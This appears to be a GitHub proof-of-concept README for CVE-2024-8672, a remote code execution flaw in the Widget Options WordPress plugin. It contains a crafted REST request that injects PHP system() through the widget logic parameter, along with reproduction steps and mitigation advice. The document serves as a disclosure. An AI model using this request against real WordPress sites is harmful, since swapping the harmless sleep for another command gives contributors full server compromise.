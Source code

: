 # CVE-2024-8672: Authenticated Contributor Remote Code Execution in Widget Options Plugin

## Description

The **Widget Options** WordPress plugin (version 4.0.7 and earlier) is vulnerable to **Authenticated Contributor Remote Code Execution (RCE)**. This vulnerability allows authenticated users with **Contributor** privileges or higher to execute arbitrary PHP code on the server. 

The issue arises from the use of the `widgetopts_safe_eval()` function, which directly evaluates user-supplied input within the `logic` feature of widgets. This improper handling enables attackers to inject and execute malicious PHP code.

## Vulnerability Details

- **Plugin:** Widget Options
- **Version:** 4.0.7 and earlier
- **Vulnerability Type:** Authenticated Remote Code Execution (RCE)
- **CVE:** [CVE-2024-8672](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/widget-options/widget-options-the-1-wordpress-widget-block-control-plugin-407-authenticated-contributor-remote-code-execution)
- **Exploitation Requirements:**
  - Valid credentials with **Contributor** or higher privileges.

## Proof of Concept (PoC)

The following example demonstrates how to exploit the vulnerability to execute the `sleep` command, causing a delay in the server's response.

### Request Example

```http
GET /wp-json/wp/v2/block-renderer/core/latest-comments?context=edit&attributes[commentsToShow]=5&attributes[displayAvatar]=true&attributes[displayDate]=true&attributes[displayExcerpt]=true&attributes[extended_widget_opts][class][logic]=system('sleep 5');&post_id=91&_locale=site HTTP/1.1
Host: localhost:5555
X-WP-Nonce: 365b68356c
Cookie: wordpress_logged_in_fake_cookie=invalid|123456789|fake_cookie
```

### Steps to Reproduce

1. Authenticate to WordPress with a Contributor account.
2. Obtain a valid **nonce** for API requests (e.g., using the browser DevTools while editing a post).
3. Send the crafted request to inject and execute the PHP logic.

## Impact

- Exploiting this vulnerability allows authenticated users to execute arbitrary PHP commands, leading to a full compromise of the WordPress site and its hosting server.

## Mitigation

To mitigate this issue:
- Update the **Widget Options** plugin to the patched version 4.0.8.
- Restrict access to Contributor accounts and review permissions.
- Use a Web Application Firewall (WAF) to block malicious requests. 

## Proof of Execution

The following screenshot demonstrates the execution of the `sleep` command via the provided PoC, showing the delayed response time.

![Proof of Concept Screenshot](img/CVE-2024-8672.png)